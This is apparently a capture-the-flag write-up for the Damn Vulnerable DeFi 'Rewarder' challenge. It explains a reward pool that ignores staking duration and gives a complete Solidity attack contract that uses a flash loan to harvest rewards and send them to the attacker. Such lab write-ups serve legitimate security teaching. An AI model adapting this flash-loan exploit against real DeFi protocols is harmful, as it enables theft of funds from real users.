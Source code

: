 ## Damn Vulnerable DeFi: The Rewarder Challenge Exploitation

Here, the primary vulnerability is in the reward distribution mechanism. The reward pool fails to check the duration for which tokens are staked when distributing rewards. This allows a user to deposit a large quantity of tokens, claim the rewards, and then promptly withdraw the tokens.

```solidity
contract AttackReward {
    FlashLoanerPool pool;
    DamnValuableToken public immutable liquidityToken;
    TheRewarderPool rewardPool;
    address payable owner;

    constructor(
        address poolAddress,
        address liquidityTokenAddress,
        address rewardPoolAddress,
        address payable _owner
    ) {
        // Initializes the FlashLoanerPool, DamnValuableToken, TheRewarderPool, and owner.
        pool = FlashLoanerPool(poolAddress);
        liquidityToken = DamnValuableToken(liquidityTokenAddress);
        rewardPool = TheRewarderPool(rewardPoolAddress);
        owner = _owner;
    }

    function attack(uint256 amount) external {
        // Requests a flash loan from the pool.
        pool.flashLoan(amount);
    }

    function receiveFlashLoan(uint256 amount) external {
        // Approves the reward pool to spend the borrowed funds.
        liquidityToken.approve(address(rewardPool), amount);

        // Deposits the borrowed funds in the reward pool, triggering reward distribution.
        rewardPool.deposit(amount);

        // Immediately withdraws the funds from the reward pool.
        // This is part of the vulnerability, as the attacker does not need to keep the funds staked.
        rewardPool.withdraw(amount);

        // Returns the borrowed funds back to the lending pool.
        liquidityToken.transfer(address(pool), amount);

        // Transfers the rewards obtained from the reward pool to the attacker's wallet.
        // This is the final step exploiting the vulnerability where the attacker obtains the rewards without staking their own funds.
        uint256 currBal = rewardPool.rewardToken().balanceOf(address(this));
        rewardPool.rewardToken().transfer(owner, currBal);
    }
}
```

In the `attack` function, we initiate a flash loan for a specified amount. When the flash loan arrives, `receiveFlashLoan` is invoked. This function takes the flash loan amount, deposits it in the `rewardPool`, immediately withdraws it, and pays back the loan. Any rewards earned during this process are transferred to the `owner`.
